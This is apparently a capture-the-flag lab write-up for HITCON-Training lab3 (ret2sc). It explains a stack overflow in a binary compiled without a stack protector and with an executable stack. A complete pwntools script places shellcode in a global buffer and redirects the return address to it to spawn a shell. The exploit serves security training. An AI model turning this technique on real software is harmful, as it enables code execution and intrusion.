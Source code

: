 # HITCON-Training lab3

## binary analysis

![](main.PNG)

> Makefile
```
ret2sc:ret2sc.c
	gcc -m32 -fno-stack-protector -z execstack ret2sc.c -o ret2sc
```

This is simple overflow problem.

This binary was compiled with `-z execstack` option and it doesn't have NX bit option.

So, write shellcode to `name` and change return address to `name` address.

![](name_address.PNG)

`name` address is `0x804A060`.

## solve

```python
from pwn import *

context.arch = "i386"
context.log_level = "DEBUG"

p = process("./ret2sc")

shellcode = asm(shellcraft.sh())
# "A"*24 ~ "A"*39
payload = "A"*32 + p32(0x804A060)

p.sendlineafter("Name:", shellcode)
p.sendlineafter("best:", payload)

p.interactive()
```